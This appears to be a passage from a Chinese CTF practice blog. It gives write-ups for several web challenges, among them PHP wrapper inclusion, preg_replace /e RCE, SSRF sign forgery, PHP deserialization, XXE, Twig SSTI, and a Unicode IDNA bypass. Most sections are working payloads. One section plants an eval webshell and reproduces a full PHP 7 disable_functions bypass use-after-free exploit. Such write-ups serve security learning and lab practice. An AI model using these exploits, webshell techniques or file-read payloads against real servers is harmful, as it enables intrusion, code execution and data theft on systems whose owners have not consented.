第一层用php伪协议中的data封装流。[PHP伪协议总结](https://segmentfault.com/a/1190000018991087)

然后进入文件包含，提示包含next.php文件，还是使用php伪协议中的php://filter

payload

```
?text=data://text/plain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php 
```

读出来的next.php

```
PD9waHAKJGlkID0gJF9HRVRbJ2lkJ107CiRfU0VTU0lPTlsnaWQnXSA9ICRpZDsKCmZ1bmN0aW9uIGNvbXBsZXgoJHJlLCAkc3RyKSB7CiAgICByZXR1cm4gcHJlZ19yZXBsYWNlKAogICAgICAgICcvKCcgLiAkcmUgLiAnKS9laScsCiAgICAgICAgJ3N0cnRvbG93ZXIoIlxcMSIpJywKICAgICAgICAkc3RyCiAgICApOwp9CgoKZm9yZWFjaCgkX0dFVCBhcyAkcmUgPT4gJHN0cikgewogICAgZWNobyBjb21wbGV4KCRyZSwgJHN0cikuICJcbiI7Cn0KCmZ1bmN0aW9uIGdldEZsYWcoKXsKCUBldmFsKCRfR0VUWydjbWQnXSk7Cn0K 
```

base64解码：

```
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
} 
```

这里想要通过需要知道一个[深入研究 preg_replace /e 模式下的代码漏洞问题](http://www.xinyueseo.com/websecurity/158.html)

最终payload

```
next.php?\S*=${getFlag()}&cmd=system('cat /flag'); 
```

* * *

# [De1CTF 2019]SSRF Me

进入页面是一堆源码，之前写过flask的可以大概理出来几个重要的点，但是还是贴一下源码

```
 from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if (not os.path.exists(self.sandbox)):  
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)  
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False

@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta', methods=['GET', 'POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if (waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

@app.route('/')
def index():
    return open("code.txt", "r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param):
    check = param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0') 
```

简单说明思路：

请求部分(代码69-78)：

| 获取的param是需要打开文件的名称，提示中已经写出flag在flag.txt。根据使用函数，可以使用get传参 |
| --- |
| 读取文件需要在cookie里传入参数action、sign |
| action是执行类型，代码33行和43行指出了两种。 |
| sing是用来验证param和action的，相关函数在94行，稍后做解释 |

获取sign部分(61-66)

| 获取param，action固定为scan |
| --- |
| 返回(secert_key + param + action)组合的sign |

所以我们需要先获取sign，获取sign时包含的param和action，再去请求文件获得flag，并且获取flag时会验证sign是否符合格式(代码32行、54-58行)。因为获取sign时action固定为scan(代码65)，但是请求中我们需要使用read才可以访问，所以构造payload。

假如param=flag.txt，获取sign时action固定值为scan，此时的sign为(使用`|`仅为说明使用，其实字符串是相连的)

```
secert_key|flag.txt|scan 
```

但是我们想要使用read，可以构造param为flag.txtread

```
secert_key|flag.txtread|scan 
```

再进行验证的时候我们传入param为flag.txt，action为readscan即可符合格式。

```
secert_key|flag.txt|readscan 
```

请求/geneSign

```
/geneSign?param=flag.txtread 
```

得到

```
9017a8826b7267833f22c0f22d90fea7 
```

得到sign以后，再去访问/De1ta

```
/De1ta?param=flag.txt

sign=9017a8826b7267833f22c0f22d90fea7;action=readscan; 
```

获得flag

* * *

# [网鼎杯 2020 朱雀组]phpweb

看源码，有一个表单和自动提交的js。表单参数为

```
func=date&p=Y-m-d+h%3Ai%3As+a 
```

是一个获取时间的函数。尝试注入点func是函数，就试试常见的读取文件函数readfile可以读取index.php

```
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?> 
```

我没思路了，看的网上wp。使用了反序列化unserialize，实在是太斯巴拉西了。

先构造Test对象，对象销毁时也会执行gettime函数执行payload，记得要加一层urlencode，不然会被拦下

```
<?php
    class Test {
        var $p = "ls ../../../../";

        var $func = "system";
    }
$s=new Test();
echo urlencode(serialize($s));
#unserialize

O%3A4%3A%22Test%22%3A2%3A%7Bs%3A1%3A%22p%22%3Bs%3A15%3A%22ls+..%2F..%2F..%2F..%2F%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3B%7D 
```

wp使用的是find指令找的flag地址，但是我执行以后出现503，应该是服务器防火墙阳气过盛，但是使用ls的方法一个一个找也能找得到。flag在/tmp/flagoefiu4r93

```
POST
func=unserialize&p=O%3A4%3A%22Test%22%3A2%3A%7Bs%3A1%3A%22p%22%3Bs%3A18%3A%22ls+..%2F..%2F..%2F..%2Ftmp%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3B%7D 
```

最后读文件

```
func=readfile&p=../../../../tmp/flagoefiu4r93 
```

* * *

# [GKCTF2020]CheckIN

是用base64解码执行代码，使用Ginkgo接收，GET、POST都可以

```
phpinfo();
cGhwaW5mbygpOw== 
```

查看php版本和disable_function，被禁用一大堆，包括好多命令执行函数

可以使用print_r()、var_dump()输出，scandir()看目录，file_get_contents()读文件内容。

scandir根目录查看

```
?Ginkgo=cHJpbnRfcihzY2FuZGlyKCcuLi8uLi8uLi8uLi8nKSk7 
```

又一个flag读不出来，但是还有一个readflag可以读出来，文件前缀是ELF，百度以后知道是linux的可执行文件

传码

```
eval($_POST[1]);
ZXZhbCgkX1BPU1RbMV0pOw== 
```

蚁剑连接。但是system()被禁，只能使用disable_function绕过，之前有一道[RCE ME](https://braindance.tk/2020/%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DRCE%20ME/)也是用绕过，但是在这道题不管用了。在网上看wp知道了另一种，利用php7堆溢出触发，我修改了下payload部分(11行)：

```
<?php

# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
#
# Author: https://github.com/mm0r1

pwn("../../.././readflag");   #这里是想要执行的命令

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
        var $ryat;
        var $chtg;

        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);

    exit();
} 
```

在蚁剑可以看出tmp文件夹权限可以上传，上传以后使用文件包含输出执行结果。文件包含payload

```
?Ginkgo=aW5jbHVkZSgnL3RtcC9waHA3LWdjLWJ5cGFzcy5waHAnKTs= 
```

* * *

# 03.02

* * *

# [NCTF2019]Fake XML cookbook

根据题目是XML，首先想到是XXE，虽然咱没学过但是可以去搜简单的payload。

使用bp抓个包，POST中传入的是标签格式，可以确定是XXE类型的题目

```
POST
Content-Type: application/xml;

<user><username>1</username><password>2</password></user> 
```

去摸一个payload试试

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
  <!ENTITY admin SYSTEM "file:///etc/passwd">
  ]>
<user><username>&admin;</username><password>123456</password></user> 
```

成功读取文件



把路径改为/flag，获得flag

* * *

# [ASIS 2019]Unicorn shop

这道题绝活。学到了unicode的安全问题：[浅谈Unicode设计的安全性](https://xz.aliyun.com/t/5402)，看了wp。

进入网站一个本杰明·富兰克林至理名言：

> 金钱从来不会使人幸福，也不会使人幸福；它的本性中没有任何东西可以产生幸福。幸福拥有的越多，想要的就越多

~~差点信了，我就要赚钱花(小声bb)~~

下面两个输入框，一个ID一个钱，上面一个独角兽商品列表，一看就是让买东西，但是1-3商品输入ID都提示错误，只有第四个可以买到，但是第四个输入钱的时候只能输入1位，然鹅4号价格是1377，显然买不到，输入多个又提示 ，所以思路就是找一个unicode字符，它的数字格式值是大于1377的。

一个和unicode有关的网站：https://www.compart.com/en/unicode

网站导航栏找到Character Categories分类，这个下有三个和数相关的：Decimal Number、Letter Number、Other Number，第一个里面都是正常数值的unicode，建议去后面两个找。怎么找：`Ctrl`+`F`搜索thousand，找1377以上的都可。

我选的是这个`፼`数值是1w，直接传传不过去，使用url编码一次再传。


* * *

# [BJDCTF2020]Cookie is so stable

和The mystery of ip的网站一样，还有可能是ssti，hint.php的注释里有

> Why not take a closer look at cookies?

去flag.php提交个1之后，看cookie为

```
Cookie: PHPSESSID=dba9ac7cbddf1983cbac508b01f8cdf2; user=1 
```

一目了然，接下来就是找payload。再使用之前的

```
{system('cat /flag')} 
```

被拦下来了，说明加强了过滤。在这之后去看了wp，网上的wp都是直接给出了payload

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}} 
```

我是受了这位师傅的[文章](https://www.cnblogs.com/bmjoker/p/13508538.html)，又去结合了下这道题的[源码](https://github.com/BjdsecCA/BJDCTF2020_January/tree/f73ac63336d9161d3c91354ce3eac943c403d4fb/Web/ssti_twig)才搞明白。

这道题在渲染之前使用了twig模板：

> Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。Twig使用一个加载器 loader(Twig_Loader_Array) 来定位模板，以及一个环境变量 environment(Twig_Environment) 来存储配置信息。其中，render() 方法通过其第一个参数载入模板，并通过第二个参数中的变量来渲染模板。

我同样在题目的源码中找到了`render()`方法和`Twig_Environment`配置信息



然后payload的具体原理在的`Environment.php`中,贴一下和payload相关部分：



1.  先执行`{{_self.env.registerUndefinedFilterCallback("exec")}}`调用了`registerUndefinedFilterCallback()`函数(图中884行)，注册了一个未定义的函数到`filterCallbacks`全局变量中
2.  接着执行`{{_self.env.getFilter("whoami")}}`调用了`getFilter()`函数，并传入变量`$name`值为执行的命令，当函数执行到图中代码875行时，进入循环执行了`call_user_func()`，这个函数大伙肯定不陌生：call_user_func 可以把第一个参数作为回调函数调用，调用的参数来源就是第一步中注册的`filterCallbacks`全局变量，里边已经躺好了一个刚刚注册的`exec`，至此就形成了payload

* * *

# 小彩蛋

现在(2021年3月2日16:32:44)刚好做完题，想回到BUU上整理过程，发现502了，然后去群里就看到了





挺草的记一下。

* * *

# [CISCN 2019 初赛]Love Math

源码：

```
<?php
error_reporting(0);

if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{

    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }

    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }

    eval('echo '.$content.';');
} 
```

快被搞死了，是一道有过滤限制的RCE，半天没有头绪就去看wp了。

[刷题记录：[CISCN 2019 初赛]Love Math](https://www.cnblogs.com/20175211lyz/p/11588219.html)

最后自己琢磨出来了一个payload，思路当然还是参考上面师傅博客的。

利用`$whitelist`里的函数名称和数字遍历异或`^`，Fuzz找出来需要的字母，然后拼接一个`_GET`传参执行命令。

Fuzz的代码

```
<?php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];

$exp='';
for ($i=0; $i < count($whitelist); $i++) { 
	for ($j=0; $j < 1000; $j++) { 
		$exp=$whitelist[$i]^$j."";
		echo $whitelist[$i]."^".$j."----".$exp;
		echo "\n";
	}
} 
```

需要知道的有，php某个版本以后可以使用函数名加`()`的方式调用函数，如

```
<?php

echo base_convert("strtoupper", 36, 10);
$cos=base_convert("2927671435926243", 10, 36);
echo "\n".$cos("abc"); 
```

上面代码是把字符串**strtoupper**赋值到变量`$cos`，然后直接使用`$cos()`执行`strtoupper()`函数。代码中使用`base_convert`函数也是这道题的一种思路哦。﹙ˊ_>ˋ﹚

还需要知道的是异或的时候会提示：字符串和数字不能直接异或，使用括号`()`括起来就可以了。`$`如果直接拼接到字符串上也是不可以的，需要使用形如`$$cos`才可以正确的指向变量。

最终payload：

```
?c=$cos=(is_finite^(6).(4)).(rad2deg^(7).(5));$cos=$$cos;$cos{0}($cos{1})&0=system&1=cat /flag 
```

* * *

# [0CTF 2016]piapiapia

使用目录扫描发现了www.zip网站备份。

网站结构

> static
> 
> upload
> 
> class.php
> 
> config.php
> 
> index.php
> 
> profile.php
> 
> register.php
> 
> update.php

发现有register就去注册个试试呗



注册成功就跳转到update.php界面了，是个修改信息的，查看源码，修改信息有手机号

邮箱、昵称、图片，还用了一些正则表达式过滤，如手机必须11位、邮箱有@和点、昵称长度不大于10、图片名称使用了md5进行加密。填写信息以后跳转到了profile.php页面。注意到图片所在的标签是：

```
 
```

~~下载的源码肯定不会把flag直接给你~~，要相办法读这个文件。看到了数据库配置，感觉序列化的对象应该也是从数据库读出来的，还有一个文件没有看：class.php，顺便跟进一下user对象相关的，注意到了注册和登陆都使用到了一个函数：`filter`

```
$username = parent::filter($username);
$password = parent::filter($password); 
```

跟进一下

```
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	} 
```

过滤`_`，select、insert、update、delete、where会被替换成`hacker`，where长度是5，hacker长度是6，敏感一点的应该想到了序列化字符串对象也是用字符串长度的，这样长度改变的话，可以使用[PHP反序列化字符串逃逸](https://my.oschina.net/u/3076320/blog/4372683)，序列化的结尾是`";}`可以手动构造闭合。

现在整理下思路。图片属性那里可以读文件，过滤函数会导致序列化字符串逃逸，所以就构造photo读取config.php。那么逃逸的点在哪里？电话只能是数字，邮箱需要有@等字符，图片会被md5加密，昵称哪里虽然有长度限制，但是如果我们传入数组的话就可以绕过。那么开工

先上payload

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";} 
```

⭐参考了其他的好多博客，这里的点讲的很模糊，原来长度为5的字符串变成了长度为6的，应该是更不可能读不到payload的。

受到了这位师傅的博客[[0CTF 2016]piapiapia](https://blog.csdn.net/weixin_44077544/article/details/102703489)，我尝试了下`$profile`属性其实是一个关联数组，是键值对形式的，并且字符串可能是嵌套起来的，形如

```
<?php
class profile{
	public $file = 'a:2:{s:8:"nickname";s:5:"where";s:5:"photo";s:3:"233";}';
	public $upload ="2333";
}
$s1= new profile();
echo serialize($s1); 
```

结果是

```
O:7:"profile":2:{s:4:"file";s:56:"a:2:{s:8:"nickname";s:15:"where";s:5:"photo";s:3:"233";}";s:6:"upload";s:4:"2333";} 
```

这种格式的，假如我们的payload是修改上面的upload，在一个字符串总长度s如上面的56读取所有变长的hacker以后，到了我们的payload地方，正常把我们构造的upload读取为对象，而后面真正的upload字符串就被舍去了。



报错是因为nickname我们传入的是数组形式的，源代码里直接对数组进行操作肯定是报错的，但是我们需要的只有photo正常即可，可以看到后面我们文件更新成功了。

查看页面的图片内容



base64解码



* * *

# [SUCTF 2019]Pythonginx



整理一下源码

```
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)

    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333" 
```

三个if都是判断`host == 'suctf.cc'`，但是需要最后一个host判断成功才可以读取文件，读取文件应该使用的是php伪协议，但是前面的不会了，去看wp。大概看的意思还是用unicode欺骗，相关题目[[ASIS 2019]Unicorn shop](#[ASIS 2019]Unicorn shop)，使用unicode经过解析以后还是原来的字符，但是可以绕过判断`==`，回过头来注意到了**第二个**if中有`newhost.append(h.encode('idna').decode('utf-8'))`进行了一波编码，那么问题就出在了这里。

所以我们只需要找出随便一个host里字符的其他unicode值，这个值在经过编码以后还可以变成原来的字母。其他wp都找的是最后的字母`c`，那么我就找第一个字母`s`验证一下，贴一个unicode的网站：https://www.compart.com/en/unicode/U+0073，进入网站以后可以搜索，然后下面有相关的字符，**需要多试几个**。



我选出的是这个字符`𝐬`，我们先使用url编码一下防止参数出现错误，尝试读一下passwd：

```
/getUrl?url=file://%F0%9D%90%ACuctf.cc/../../../../../etc/passwd 
```



flag并不在其中，并且也不再根目录下，根据题目中有`nginx`应该是一个指路的，去读一读nginx的配置文件。从师傅那学到的nginx配置文件所在位置，以后说不定自己也用得到：

> 配置文件存放目录：/etc/nginx、/usr/local/nginx/conf/nginx.conf
> 
> 主配置文件：/etc/nginx/conf/nginx.conf
> 
> 管理脚本：/usr/lib64/systemd/system/nginx.service
> 
> 模块：/usr/lisb64/nginx/modules
> 
> 应用程序：/usr/sbin/nginx
> 
> 程序默认存放位置：/usr/share/nginx/html
> 
> 日志默认存放位置：/var/log/nginx

读配置文件

```
/getUrl?url=file://%F0%9D%90%ACuctf.cc/../../../../../usr/local/nginx/conf/nginx.conf 
```



读flag

```
/getUrl?url=file://%F0%9D%90%ACuctf.cc/../../../../../usr/fffffflag 
```


参考的博客链接：

[https://www.xmsec.cc/suctf19-wp/](https://www.xmsec.cc/suctf19-wp/)

[https://xz.aliyun.com/t/6042#toc-24](https://xz.aliyun.com/t/6042#toc-24)

[https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)

* * *